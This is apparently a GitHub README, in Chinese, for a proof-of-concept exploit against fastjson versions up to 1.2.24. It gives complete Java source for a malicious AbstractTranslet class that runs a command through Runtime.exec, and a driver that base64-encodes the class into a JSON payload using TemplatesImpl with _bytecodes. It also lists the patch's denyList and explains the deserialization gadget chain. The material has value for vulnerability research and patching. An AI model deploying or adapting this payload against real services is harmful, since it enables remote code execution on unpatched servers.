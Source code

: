 fastjson remote code execute poc 
影响范围：fastjson <= 1.2.24

使用方法及说明：
直接用intellij IDEA打开即可
首先编译得到Test.class，然后运行Poc.java

支持jdk1.7，1.8
该poc只能运行在fastjson-1.2.22到fastjson-1.2.24版本区间，因为fastjson从1.2.22版本才开始引入SupportNonPublicField

分析：
1、逆向官方更新补丁
更新补丁主要的更新在checkAutoType函数，这个函数的主要功能就是添加了黑名单，将一些常用的反序列化利用库都添加到黑名单中。核心部分就是denyList的处理过程，遍历denyList，如果引入的库以denyList中某个deny打头，就会抛出异常，中断运行。
黑名单如下：
bsh,com.mchange,com.sun.,java.lang.Thread,java.net.Socket,java.rmi,javax.xml,org.apache.bcel,org.apache.commons.beanutils,
org.apache.commons.collections.Transformer,org.apache.commons.collections.functors,org.apache.commons.collections4.
comparators,org.apache.commons.fileupload,org.apache.myfaces.context.servlet,org.apache.tomcat,org.apache.wicket.util,
org.codehaus.groovy.runtime,org.hibernate,org.jboss,org.mozilla.javascript,org.python.core,org.springframework

TemplatesImpl类有一个字段就是_bytecodes，有部分函数会根据这个_bytecodes生成java实例，简直不能再更妙，这就解决了fastjson通过字段传入一个类，再通过这个类执行有害代码。后来阅读ysoserial的代码时也发现在gadgets.java这个文件中也使用到了这个类来动态生成可执行命令的代码。
test代码：
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
 
import java.io.IOException;
 
public class Test extends AbstractTranslet {
    public Test() throws IOException {
        Runtime.getRuntime().exec("calc");
    }
 
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
    }
 
    @Override
    public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws TransletException {
 
    }
 
    public static void main(String[] args) throws Exception {
        Test t = new Test();
    }
}
，在Test.java的构造函数中执行了一条命令，弹出计算器。编译Test.java得到Test.class供后续使用。后续会将Test.class的内容赋值给_bytecodes。
package person;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;
import org.apache.commons.io.IOUtils;
import org.apache.commons.codec.binary.Base64;

import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;

/**
 * Created by web on 2017/4/29.
 */
public class P{

    public static String readClass(String cls){
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        try {
            IOUtils.copy(new FileInputStream(new File(cls)), bos);
        } catch (IOException e) {
            e.printStackTrace();
        }
        return Base64.encodeBase64String(bos.toByteArray());

    }

    public static void  test_autoTypeDeny() throws Exception {
        ParserConfig config = new ParserConfig();
        final String fileSeparator = System.getProperty("file.separator");
        final String evilClassPath = System.getProperty("user.dir") + "\\target\\classes\\person\\Test.class";
        String evilCode = readClass(evilClassPath);
        final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
        String text1 = "{\"@type\":\"" + NASTY_CLASS +
                "\",\"_bytecodes\":[\""+evilCode+"\"],'_name':'a.b',\"_outputProperties\":{ }," +
                "\"_name\":\"a\",\"_version\":\"1.0\",\"allowedProtocols\":\"all\"}\n";
        System.out.println(text1);
       
        Object obj = JSON.parseObject(text1, Object.class, config, Feature.SupportNonPublicField);
        //assertEquals(Model.class, obj.getClass());
    }
    public static void main(String args[]){
        try {
            test_autoTypeDeny();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
在这个程序验证代码中，最核心的部分是_bytecodes，它是要执行的代码，@type是指定的解析类，fastjson会根据指定类去反序列化得到该类的实例，在默认情况下，fastjson只会反序列化公开的属性和域，而com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl中_bytecodes却是私有属性，_name也是私有域，所以在parseObject的时候需要设置Feature.SupportNonPublicField，这样_bytecodes字段才会被反序列化。_tfactory这个字段在TemplatesImpl既没有get方法也没有set方法，所以是设置不了的，弹计算器的图中展示了但是实际运行却没有使用，只能依赖于jdk的实现，作者在1.8.0_25,1.7.0_05测试都能弹出计算器，某些版本中在defineTransletClasses()用到会引用_tfactory属性导致异常退出。
在getTransletInstance调用defineTransletClasses，在defineTransletClasses方法中会根据_bytecodes来生成一个java类，生成的java类随后会被getTransletInstance方法用到生成一个实例，也也就到了最终的执行命令的位置Runtime.getRuntime.exec()

